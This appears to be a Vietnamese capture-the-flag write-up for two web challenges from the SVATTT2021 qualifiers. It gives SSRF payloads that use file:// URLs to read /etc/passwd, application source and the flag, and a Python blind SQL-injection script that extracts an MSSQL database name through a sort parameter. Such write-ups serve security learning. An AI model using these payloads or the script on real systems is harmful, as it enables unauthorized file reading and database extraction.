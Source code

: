 # \[Web] SVATTT2021

![ASCIS 2021 - Quals](<../.gitbook/assets/image (3).png>)

### OProxy

Link: [http://125.235.240.166:8000](http://125.235.240.166:8000)

[
\
](http://125.235.240.166:8000)

![](<../.gitbook/assets/image (2).png>)

Bài này ta nhận được 1 form login, nhiệm vụ của mình là tạo 1 account và xem xét các chức năng có sẵn, sau đó sẽ dựa vào tính năng "View website by proxy" để thực hiện việc bypass

Lúc làm bài này thì mình khá bí và tốn thời gian suy nghĩ vì không biết nên làm thế nào, sau đó nhờ 1 tiền bối gợi ý thì giải pháp làm bài này sẽ như sau:

&#x20;

![](../.gitbook/assets/image.png)

* Mình sẽ thực hiện việc truyền 1 URL thông qua form này, sau đấy sử dụng BurpSuite chặn lại trước khi request được chuyển đi và thực hiện payload sau đây.
* `csrf_token=[token]&url=file%3A%2F%2F127.0.0.1%2Fapp%2Fflag.txt&submit=Go%21`

Nói rõ hơn, giai đoạn mình thực hiện fuzz như sau:

`csrf_token=[token]&url=file://127.0.0.1/etc/passwd&Submit=Go%21`

![](<../.gitbook/assets/ảnh (6).png>)

Để ý server respose header Werkzeug/1.01 Python/3.10.0, tiếp tục fuzz

`csrf_token=[token]&url=file://127.0.0.1/app/main.py&Submit=Go%21`

![](<../.gitbook/assets/ảnh (7).png>)

`csrf_token=[token]&url=file%3A%2F%2F127.0.0.1%2Fapp%2Fflag.txt&submit=Go%21`

Flag: ASCIS{SSRF\_M3mcached\_inj3cti0n}



### script kiddie

\
Link: [http://167.172.85.253/web100/?sort=name
\
](http://167.172.85.253/web100/?sort=name)

![](<../.gitbook/assets/image (1).png>)

Đầu tiên khi vào link đề cho ta sẽ thấy thông tin hiển thị như ở dưới đây

![](<../.gitbook/assets/image (4).png>)

Đề đã cho ta những thông tin cần thiết, đầu tiên như mô tả ta có thể biết rằng web có chứa lỗ hổng SQL-injection với CSDL được dùng ở đây là MSSQL. Câu query như sau:  SELECT \* FROM … ORDER BY $sort ASC

`Giá trị của biến `$sort`  ta có thể control thông qua param  `?sort=



```
import requests
from string import printable


url = 'http://167.172.85.253/web100/'
r = requests.Session()
db = ''
index = len(db) + 1

while True:
	for c in printable:
		#print("testing for " + c)
		payload = f'(case when (ascii(substring(db_name(),{index},1))={ord(c)}) then 1 else 1/db_name() end)'
		resp = r.get(url + '?sort=' + payload)
		if "Error" not in resp.text:
			db += c
			index += 1
			print(f"Length: {len(db)} - DB_NAME: {db}")
			break  
//Code tham khảo từ https://kcsc-club.github.io/2021/10/18/svattt2021-quals/#web			
```

![](<../.gitbook/assets/ảnh (9).png>)

Flag: `ASICS{ssalchtiwesmihcueymorf}`



